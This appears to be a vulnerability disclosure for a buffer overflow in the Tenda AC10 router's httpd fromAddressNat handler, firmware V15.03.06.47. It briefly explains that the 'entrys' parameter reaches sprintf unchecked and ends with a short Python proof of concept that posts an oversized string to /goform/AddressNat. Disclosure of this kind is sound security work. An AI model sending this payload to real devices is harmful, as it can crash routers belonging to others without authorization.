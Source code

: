 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromAddressNat

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](8.png)

get value from entrys ,then call sprintf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/AddressNat"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'entrys': payload})
``` 
